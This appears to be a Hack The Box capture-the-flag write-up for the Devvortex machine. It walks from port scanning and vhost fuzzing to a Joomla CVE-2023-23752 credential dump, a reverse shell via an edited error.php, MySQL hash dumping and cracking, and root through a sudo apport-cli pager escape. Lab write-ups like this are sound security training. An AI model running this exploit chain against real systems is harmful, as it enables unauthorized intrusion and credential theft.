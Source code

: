```yaml
---
title: HTB Devvortex Writeup
author: Elus1nist
layout: post
date: 12 January 2023
imagesrc: https://labs.hackthebox.com/storage/avatars/2565d292772abc4a2d774117cf4d36ff.png
---
```

Welcome! This is my writeup of the Season 3 Easy machine from HTB, Devvortex. 

---
---
## Enumerating Services and Open Ports


So to start, as usual we run an nmap TCP port scan:

```
nmap -sC -sV -oN initial_scan 10.10.11.242
```
This gives us the scan results of:
```sh
Nmap scan report for 10.10.11.242
Host is up (0.36s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

Alright, so now we have the following services that we can exploit:
- Port 22: SSH - This service will probably become accessible once we have some creds
- Port 80: HTTP - We can see a domain name dumped `devvortex.htb` (add to `/etc/hosts` file)

---
---
## Enumerating HTTP

Once we add to our hosts file we can visit the HTTP webpage and see the following:

<img src="{{- 'writeup_images/Devvortex/devvortex_Webpage.png' | relative_url}}" >

Seeing nothing right off the bat, we can go ahead with some VHost Fuzzing

---
---
## Fuzzing

```
ffuf -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://devvortex.htb/ -H 'Host: FUZZ.devvortex.htb' -fs xxx
```
Fuzzing reveals an additional VHost - `dev.devvortex.htb`. We also add this to `/etc/hosts`

We can now do a directory bruteforce for this VHOST using feroxbuster:
```sh
feroxbuster --url http://dev.devvortex.htb/ --filter-status 404
```
This reveals a directory of `/administrator`

Visiting shows us a Joomla Application:
<img src="{{- 'writeup_images/Devvortex/devvortex_Joomla.png' | relative_url}}" >

---
---
## Joomla Exploitation

Doing a quick enumeration with joomscan we see a Joomla Version 4.2.6

A quick google directs us to - [Joomla Credential Dump CVE-2023-23752](https://github.com/Acceis/exploit-CVE-2023-23752)

Exploiting with:
```sh
ruby exploit.rb http://dev.devvortex.htb/
```
`lewis:P4ntherg0t1n5r3c0n##`

After logging in with these admin credentials we can modify error.php and gain a reverse shell as `www-data`

---
---
## Pivoting for user flag

Once in as `www-data` we can see a mysql account. Logging is using lewis credentials:
```sh
mysql -h localhost -u lewis -p'P4ntherg0t1n5r3c0n##'
```

This allows us to dump the table from `joomla\sd4fg_users`:
```mysql
use joomla;
select * from sd4fg_users;
```
Table dump shows:

| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
|-----|------------|----------|---------------------|--------------------------------------------------------------|-------|-----------|---------------------|---------------------|------------|---------------------------------------------------------------------------------------------------------------------------------------------------------|---------------|------------|--------|------|--------------|--------------|
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2023-11-29 13:08:02 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |

Cracking the password for user logan using hashcat we getcredentials:
`logan:tequieromucho`

---
---
## SSH Login

We can then login to ssh using the credentials for logan and pick up the user.txt flag

---
---
## Privilege Escalation

With a simple `sudo -l` command we can see that user logan can run the following with root priveleges

```
User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

Utilizing an older CVE we can load a crash file with apport and with the pager, gain command access.

```sh
sudo /usr/bin/apport-cli -c /var/crash/_usr_bin_apport-cli.0.crash
```

Once loaded we can pres the `V` key and use `!/bin/bash` to gain root shell.

<img src="https://gifsec.com/wp-content/uploads/2022/09/yay-gif-2.gif">